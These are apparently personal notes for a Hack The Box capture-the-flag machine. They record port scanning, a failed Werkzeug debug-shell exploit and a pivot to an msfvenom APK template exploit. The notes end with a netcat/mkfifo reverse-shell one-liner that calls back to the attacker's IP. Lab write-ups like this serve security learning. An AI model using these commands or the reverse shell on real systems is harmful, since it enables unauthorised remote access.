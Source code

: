 # how to push to git

cd existing\_folder
git init
git remote add origin https://gitlab.com/Injamam\_Ahmed/htb-writeups.git
git add .
git commit -m "Initial commit"
git push -u origin main


# listing ports

## we have the following ports

  22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
  
  5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
  
## 22 ssh is not vulnerable but 5000 might be but first lets visit the website

![[Pasted image 20210614012440.png]]

![[Pasted image 20210614012745.png]]

![[Pasted image 20210614012627.png]]

here is the website

### we can see something interesting here in port 5000 it says service is "upnp" whereas in our scan it says "http Werkzeug"

### we have to make this clear what is it but both of the things have vulnerability in them

```
   What does enabling UPnP do?

Universal Plug and Play (**UPnP**) is a protocol that allows apps and other devices on your network to open and close ports automatically to connect with each other. ... **UPnP**\-**enabled** devices **can** automatically join a network, obtain an IP address, and find and connect to other devices on your network, making it very convenient.01-Aug-2019
```

```
   Werkzeug - 'Debug Shell' Command Execution                                       |multiple/remote/43905.py        
  Werkzeug - Debug Shell Command Execution (Metasploit)                             python/remote/37814.rb 
```

### so we know the upnp is open and the werkzug hag debugshell commane execution so lets try to exploit it

## we tried to run the exploit from searchsploit but it didnt worked

```
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# searchsploit -m 43905.py
  Exploit: Werkzeug - 'Debug Shell' Command Execution
      URL: https://www.exploit-db.com/exploits/43905
     Path: /usr/share/exploitdb/exploits/multiple/remote/43905.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/HTB/scriptkiddie/43905.py
  
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# chmod +x 43905.py  
         
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py                      
USAGE: python 43905.py <ip> <port> <your ip> <netcat port>

┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py 10.10.10.226 5000 10.10.14.23 1234                           
[-] Debug is not enabled
                              
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py 10.10.10.226 5000 10.10.14.23 443               

[-] Debug is not enabled

```

### as we know we have upnp in 5000 we have to try to first enable the debug then we can have access

### lets run gobuster and see for any file in there
 ### no luck with gobuster 
 
 ## after hours realized it all was a rabbithole and the vulnerability is in a msfvenom apk file 
 
  ### so lets get the exploit for it and see what we can get
  
  https://www.exploit-db.com/exploits/49491
  
  ### this is the exploit we will change the attack type to get reverse shell
  
  ![[Pasted image 20210614030100.png]]
  
  ### we will change the payload to a reverse shell
  
  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 1234 >/tmp/f
  ```
  
  and then we will execute it to get the exploit
  
  
